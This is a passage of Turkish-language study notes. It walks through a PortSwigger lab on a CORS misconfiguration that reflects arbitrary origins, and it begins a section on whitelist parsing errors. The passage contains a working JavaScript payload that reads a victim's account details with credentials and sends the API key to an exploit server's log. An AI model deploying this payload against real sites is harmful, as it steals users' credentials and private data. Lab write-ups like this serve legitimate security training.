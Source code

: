 Aşağıdaki kimlik bilgilerini kullanarak kendi hesabınıza giriş yapabilirsiniz: `wiener:peter`

1- Kesmenin kapalı olduğunu kontrol edin, ardından oturum açmak ve hesap sayfanıza erişmek için tarayıcıyı kullanın.

2- Geçmişi inceleyin ve Anahtarınızın `/accountDetails` adresine yapılan bir AJAX request'i aracılığıyla alındığını ve yanıtın CORS'u destekleyebileceğini düşündüren `Access-Control-Allow-Credentials` header'ını içerdiğini gözlemleyin.

![Pasted image 20250602220632.png](/img/user/resimler/Pasted%20image%2020250602220632.png)

3- İsteği Burp Repeater'a gönderin ve eklenen headerla birlikte yeniden gönderin:

```
Origin: https://example.com
```

![Pasted image 20250602220812.png](/img/user/resimler/Pasted%20image%2020250602220812.png)

4- Origin'in `Access-Control-Allow-Origin` header'ında yansıtıldığını gözlemleyin.

5- Tarayıcıda, exploit server'a gidin ve `YOUR-LAB-ID` yerine benzersiz laboratuvar URL'nizi yazarak aşağıdaki HTML'yi girin:

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','http://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

6- Exploit'i görüntüle'ye tıklayın. Exploit'in çalıştığını gözlemleyin - log sayfasına ulaştınız ve API anahtarınız URL'de yer alıyor.

![Pasted image 20250602223402.png](/img/user/resimler/Pasted%20image%2020250602223402.png)

7- Exploit sunucusuna geri dönün ve Deliver exploit to victim  seçeneğine tıklayın.

8- Access log'a tıklayın, laboratuvarı tamamlamak için kurbanın API anahtarını alın ve gönderin.

---

### Errors parsing Origin headers

Birden fazla originden erişimi destekleyen bazı uygulamalar, bunu izin verilen originlerden oluşan bir whitelist kullanarak yapar. Bir CORS request'i alındığında, sağlanan kaynak whitelist ile karşılaştırılır. Origin whitelist'te görünüyorsa, `Access-Control-Allow-Origin` header'ına yansıtılır, böylece erişim izni verilir. Örneğin, uygulama aşağıdaki gibi normal bir istek alır:

```http
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```
